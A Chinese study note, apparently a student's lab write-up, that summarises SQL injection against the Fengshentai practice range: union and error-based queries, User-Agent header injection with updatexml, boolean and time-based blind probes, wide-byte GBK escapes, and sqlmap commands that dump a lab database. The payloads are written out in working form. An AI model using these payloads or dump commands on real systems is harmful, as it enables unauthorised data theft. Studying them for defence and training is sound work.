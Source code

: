 ### SQL注入总结

#### 报错注入

- 第一步, 检查注入点
- 第二步, group by 查看前端回显字段数量
- 第三步, `union select 1,2,3,4` 根据前端显示判定回显字段
- 第二步, 注意闭合
- 注入代码:
    - `union select version(),database()`
    - `union select group_concat(table_name) from information_schema.tables where table_schema=database()`
    - `union select group_concat(column_name) from information_schema.columns where table_name='table_name'`
- 根据列名查询数据, 注意limit


#### Header注入

- 第一步, 爆破出密码
- 第二步, `User-Agent`修改为`1' and updatexml(1,concat(0x7e,(select database())),1),'2') -- q`, 查看报错信息
- 第三步, 查表名
`User-Agent`修改为`1' and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema=database() limit 0,1)),1),'2') -- q`
- 第四步, 查列名`User-Agent`修改为`1' and updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_schema='head_error' and table_name='flag_head' limit 0,1)),1),'2') -- q`
- 第五步, 查字段内容
`User-Agent`修改为`1' and updatexml(1,concat(0x7e,(select flag_h1 from flag_head limit 0,1)),1),'2') -- q`

**注入点除了`User-Agent`,还有`Referer`,`HTTP_X_FORWARDED_FOR`**

> updatexml()  
这个函数有三个传参  
update是更新的意思 xml是一种文档的类型  
updatexml(目标xml内容，xml文档路径，更新的内容)  
updatexml(1,concat(0x7e(select database())0x7e),1)  
以上这条语句的意思为  
更新xml文档（需要更新的文档,concat(0x是16进制7e转换后是~（子查询爆库名），更新后的内容）  
之前我们讲了数据库路径出现符号是会爆错的的0x7e这个经过16进制转换后变成~
以上语句实际上是更新xml文档，但我们在xml路径中写了子查询它，我们输入了特殊符号，数据库路径出现特殊符号是会爆错的，但是报错的时候它就已经执行了那个子查询的代码了  
updatexml()这个函数一般是配合and或者是or使用的，他和联合查询不同，不需要在意什么字段数  


#### 布尔盲注

- 第一步, 判断传入参数类型,参数添加`and 1=1`页面无变化,参数添加`and 1=2`, 页面有变化，说明可以判断sql语句被执行，且传入参数为数字。存在SQL注入
- 第二步, 现在构造一个语句猜测数据库名长度,`and length(database())>10`, 前端显示正常, 这样一直猜测到数据库名字长度
- 第三步, 现在构造一个语句猜测数据库名第一个字母的ascii码是否大于100,`and ascii(substr(database(),1,1))>100`,就这样尝试到`and ascii(substr(database(),1,1))=107`, 得到第一个字符的ascii码是107
- 使用bp爆破模块猜解数据库名
- 使用sqlmap得到表名`python sqlmap.py -u http://inject2.lab.aqlab.cn:81/Pass-10/index.php?id=1 -p id -threads 50 -D kanwolongxia --tables`
- 使用sqlmap得到字段名`python sqlmap.py -u http://inject2.lab.aqlab.cn:81/Pass-10/index.php?id=1 -p id -threads 50 -D kanwolongxia -T loflag --columns`
- 使用sqlmap得到记录`python sqlmap.py -u http://inject2.lab.aqlab.cn:81/Pass-10/index.php?id=1 -p id --threads 50 -D kanwolongxia -T loflag -C flaglo --dump`

> 盲注总结:
1.盲注是在没有回显，关闭错误页面，采用的一种测试方法，有点费时间  
2.sqlmap 在参数错误的时候有时候不会提示。。。有时候指定参数都跑不出来, 需要提高等级  
3.不同的数据库可以使用的空耗时间的函数也不尽相同  


#### 时间盲注
- 第一步,通过sleep函数确定存在时间盲注`" and sleep(4) -- qww`
- 第二步,依次确定数据库名字`http://inject2.lab.aqlab.cn:81/Pass-13/index.php?id=1" and if(substr(database(),1,1)="k",sleep(3),1) -- qww`
- 第三步,sqlmap跑出数据库名`python sqlmap.py -u http://inject2.lab.aqlab.cn:81/Pass-13/index.php?id=1 --batch --flush-session --current-db --level=3 --risk=3`
- 第四步,sqlmap跑出表名`python sqlmap.py -u http://inject2.lab.aqlab.cn:81/Pass-13/index.php?id=1 --batch --level=3 --risk=3 -D kanwolongxia --tables`
- 第五步,sqlmap脱库`python sqlmap.py -u http://inject2.lab.aqlab.cn:81/Pass-13/index.php?id=1 --batch --level=3 --risk=3 -D kanwolongxia -T loflag -C flaglo --dump`

> 相关函数
length() => 返回(字符串)长度的数值  
substr([],[A],[B]) => 返回[]值中，[A]开始[B]位后的字符值  
ascii() => 通过数值返回(此处内容)的阿斯克码  
sleep()  
if(expr1.expr2,expr3) =>判断语句，第一个正确执行2，错误执行3  


#### 宽字节注入

*注意到单引号前加了反斜杠，使我们不能闭合字符串。所以在URL中不能出现单引号。其他和普通的GET注入一样*
- 第一步, 判断闭合字符  
只要出现单引号，前面就会加上反斜杠，有反斜杠就无法实现注入。现在考虑怎么把它加的反斜杠吃掉。反斜杠和前面的一个字符组成一个整体就不会去转义单引号了。这个整体就是宽字节。
对于中文这样的字符集，一个字符是用多个字节表示的。比如GBK编码用两个字节表示，UTF-8用3个字节表示。如果输入一个字节与反斜杠组成GBK的某一个汉字，反斜杠就不转义了。输入的字节必须大于127，否则就会被当成ASCII了。所以输入个0xdd试一下，通常编辑器下是输不了大于127的字节的，正好GET要进行URL编码，只要输入编码后的%dd就行了。所以我选择的闭合字符是%dd’
- 第二步,判断是否存在注入,按显错注入的步骤，输入`%dd' and 1=1 — q, %dd' and 1=2 — q`结果不一样，存在注入
- 第三步,查出字段`%dd' order by 2 — q`
- 第四步,寻找输出点`%dd’ union select 1,2,3 — q`


>一、原理  
magic_quotes_gpc（魔术引号开关）  
magic_quotes_gpc函数在php中的作用是判断解析用户提交的数据，如包括有：post、get、cookie过来的数据增加转义字符“\”，以确保这些数据不会引起程序，特别是数据库语句因为特殊字符引起的污染而出现致命的错误。  
单引号（’）、双引号（”）、反斜线（\）与 NULL（NULL 字符）等字符都会被加上反斜线  
GBK全称《汉字内码扩展规范》,gbk是一种多字符编码。他使用了双字节编码方案，因为双字节编码所以gbk编码汉字，占用2个字节。一个utf-8编码的汉字，占用3个字节。




封神台SQL注入-HEADER注入
https://www.freesion.com/article/79131245351/

封神台SQL注入-盲注
https://www.pianshen.com/article/12321993968/

封神台SQL注入-延时注入
https://www.pianshen.com/article/49251993962/

封神台SQL注入-宽字节注入
https://www.pianshen.com/article/47421993964/


工具: Nmap ,dicsearch
